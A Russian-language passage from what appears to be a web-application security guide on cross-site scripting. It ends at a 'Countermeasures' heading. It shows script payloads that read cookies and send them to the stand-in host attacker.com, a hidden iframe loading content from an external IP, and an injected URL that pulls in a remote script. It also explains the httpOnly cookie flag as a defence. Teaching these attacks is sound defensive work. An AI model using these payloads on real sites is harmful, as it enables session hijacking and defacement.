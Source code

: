```html
<script>document.write(document.cookie);</script>
```

Для злоумышленника, разумеется, бесполезно, что жертва видит свои куки. Следующий пример пытается загрузить изображение с URL http://www.attacker.com/ плюс куки. Конечно, этот URL не существует, поэтому браузер ничего не отобразит. Но злоумышленник сможет просмотреть логи доступа к своему веб-серверу, чтобы увидеть куки жертв.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

Лог файлы на `www.attacker.com` будут подобны следующему:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

Можно смягчить эти атаки (очевидным способом) добавив к куки флаг **httpOnly**, таким образом, `document.cookie` не сможет быть прочитан JavaScript. HTTP-only куки могут использоваться начиная с IE v6.SP1, Firefox v2.0.0.5 и Opera 9.5, Safari 4 и Chrome 1.0.154 и выше. Но другие, более старые браузеры (такие как WebTV и IE 5.5 on Mac) могут фактически отказаться загружать страницу. Однако, будьте осторожны, что куки [все еще видны при использовании Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly).

##### Искажение

Исказив веб-страницу, злоумышленник сможет сделать многое, например, предоставить ложную информацию или завлечь жертву на сайт злоумышленника, чтобы украсть куки, учетные данные для входа или другие чувствительные данные. Наиболее популярным способом является включение кода с внешних источников с помощью iframe:

```html
<iframe name=”StatPage” src="http://58.xx.xxx.xxx" width=5 height=5 style=”display:none”></iframe>
```

Это загрузит произвольный HTML и/или JavaScript с внешнего источника и внедрит его, как часть сайта. Этот `iframe` взят из настоящей атаки на правительственные итальянские сайты с использованием [Mpack attack framework](https://isc.sans.org/diary.html?storyid=3015). Mpack пытается установить злонамеренное программное обеспечение через дыры безопасности в веб-браузере – очень успешно, 50% атак успешны.

Более специализированные атаки могут накрывать целые веб-сайты или отображать форму входа, которая выглядит как такая же на оригинальном сайте, но передает имя пользователя и пароль на сайт злоумышленников. Или могут использовать CSS и/или JavaScript, чтобы спрятать настоящую ссылку в веб-приложении, и отобразить на ее месте другую, которая перенаправит на фальшивый веб-сайт.

Атаки в форме искажающих инъекций являются такими, что полезная нагрузка не хранится, а предоставляется жертве позже, но включена в URL. Особенно в формах поиска не получается экранировать строку поиска. Следующая ссылка представляет страницу, озаглавленную "George Bush appointed a 9 year old boy to be the chairperson...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Контрмеры
